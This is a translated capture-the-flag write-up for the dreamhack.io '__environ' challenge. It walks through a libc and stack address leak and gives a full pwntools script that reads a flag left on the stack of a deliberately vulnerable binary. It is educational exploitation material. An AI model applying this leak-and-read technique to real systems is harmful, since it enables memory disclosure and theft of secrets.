

# dreamhack.io: Exploit Tech: __environ

> Originally published on [Naver Blog](https://blog.naver.com/chaeeunhur630/224312187043). Translated and reformatted in English.

chaeeun@chaeeuns-MacBook-Air 1b801be5-66b4-4950-9b5c-51a6c27923d1 % ls
Dockerfile environ environ.c flag libc.so.6
chaeeun@chaeeuns-MacBook-Air 1b801be5-66b4-4950-9b5c-51a6c27923d1 % checksec ./environ
[*] '/Users/chaeeun/Desktop/1b801be5-66b4-4950-9b5c-51a6c27923d1/environ'
 Arch: amd64-64-little
 RELRO: Full RELRO
 Stack: Canary found
 NX: NX enabled
 PIE: PIE enabled
 SHSTK: Enabled
 IBT: Enabled
 Stripped: No
chaeeun@chaeeuns-MacBook-Air 1b801be5-66b4-4950-9b5c-51a6c27923d1 % cat environ.c
// Name: environ.c
// Compile: gcc -o environ environ.c

#include <fcntl.h>
#include <stdio.h>
#include <unistd.h>
#include <signal.h>
#include <stdlib.h>

void sig_handle() {
 exit(0);
}
void init() {
 setvbuf(stdin, 0, 2, 0);
 setvbuf(stdout, 0, 2, 0);

 signal(SIGALRM, sig_handle);
 alarm(5);
}

void read_file() {
 char file_buf[4096];

 int fd = open("./flag", O_RDONLY);
 read(fd, file_buf, sizeof(file_buf) - 1);
 close(fd);
}
int main() {
 char buf[1024];
 long addr;
 int idx;

 init();
 read_file();

 printf("stdout: %p\n", stdout);

 while (1) {
 printf("> ");
 scanf("%d", &idx);
 switch (idx) {
 case 1:
 printf("Addr: ");
 scanf("%ld", &addr);
 printf("%s", (char *)addr);
 break;
 default:
 break;
 }
 }
 return 0;
}
chaeeun@chaeeuns-MacBook-Air 1b801be5-66b4-4950-9b5c-51a6c27923d1 %

It can be said that almost all protection techniques are included. First, I will explain the topic of this war game, environment variables. To put it simply, environment variables are settings values ​​that are passed along when a program is executed.

For example, in Linux, these are environment variables.

PATH=/usr/bin:/bin

HOME=/home/user

USER=chaeeun

LANG=en_US.UTF-8

That is, from the program's perspective: “Where am I running, who is the user, what is the command path, and what are the language settings?” The same information can be obtained from environment variables. What is important in this problem is the pointer to the list of environment variables called environ, rather than the value of the environment variable itself. environ is a global variable in libc, and its role is roughly like this.

char **environ;

Meaning:

environ → Address near the stack containing a list of environment variables. This means that by reading the environ you can figure out the stack address.

First is the __environ address.

In this problem, you can first calculate the libc base address using the stdout address output by the program.

stdout = int(p.recvuntil(b'\n'), 16)

libc_base = stdout - elf.symbols['_IO_2_1_stdout_']

Since stdout is an object that exists inside libc, the libc base address can be obtained by subtracting the _IO_2_1_stdout_ offset in libc from the stdout address output during actual execution.

Next, calculate the address of the __environ symbol in libc.

libc_environ = libc_base + elf.symbols['__environ']

__environ is a pointer to a list of environment variables. In Linux, environment variables are usually stored near the process's stack area. Therefore, by reading the __environ value, you can find the stack address.

To summarize, it is as follows.

stdout leak

→ libc base calculation

→ Calculate __environ address in libc

→ Stack address leak by reading __environ value

2. Check the stack location where the flag is stored in read_file()

The read_file() function opens the flag file and reads the contents into the local variable file_buf.

char file_buf[4096];

int fd = open("./flag", O_RDONLY);

read(fd, file_buf, sizeof(file_buf) - 1);

close(fd);

In other words, the flag contents are stored in the stack area, not the heap or global area. If you disassemble read_file() with GDB, you can see where the buffer address is set before the read() call.

lea rcx, [rbp-0x1010]

mov edx, 0xfff

mov rsi, rcx

call read@plt

Here, rcx is the address of file_buf, which is then passed to rsi and used as the buffer, the second argument of read(). Therefore, if you set a breakpoint immediately after read(), you can confirm that rcx points to the stack buffer address where the flag content will be entered.

b *read_file+93

r

x/gx $rcx

Afterwards, by comparing the __environ value and the $rcx value obtained earlier, the distance between the stack address leaked to the environ and the flag buffer can be calculated.

p/x __environ

p/x 0x7fffffffe698 - 0x7fffffffd130

The calculation result offset is as follows.

0x1568

In other words, by subtracting 0x1568 from the stack address obtained with __environ, you can obtain the address near the buffer where read_file() reads the flag.

p.sendlineafter(b'> ', b'1')

p.sendlineafter(b'Addr: ', str(environ).encode())

p_environ = u64(p.recvn(6).ljust(8, b'\x00'))

flag_buf = p_environ - 0x1568

#!/usr/bin/env python3
from pwn import *

context.binary = './environ'
context.log_level = 'debug'

elf = ELF('./environ')
libc = ELF('./libc.so.6')

p = remote('host', port)

# 1. Getting stdout leak
p.recvuntil(b'stdout: ')
stdout_leak = int(p.recvline().strip(), 16)

log.info(f'stdout leak = {hex(stdout_leak)}')

# 2. libc base calculation
libc_base = stdout_leak - libc.symbols['_IO_2_1_stdout_']
environ_addr = libc_base + libc.symbols['__environ']

log.info(f'libc base = {hex(libc_base)}')
log.info(f'__environ = {hex(environ_addr)}')

def aar(addr):
 p.sendlineafter(b'> ', b'1')
 p.sendlineafter(b'Addr: ', str(addr).encode())
 return p.recvuntil(b'> ', drop=True)

data = aar(environ_addr)

stack_leak = u64(data[:6].ljust(8, b'\x00'))

log.info(f'stack leak = {hex(stack_leak)}')
flag_buf = stack_leak - 0x1568

log.info(f'flag buffer = {hex(flag_buf)}')
flag = aar(flag_buf)

log.success(f'flag = {flag}')

p.interactive()
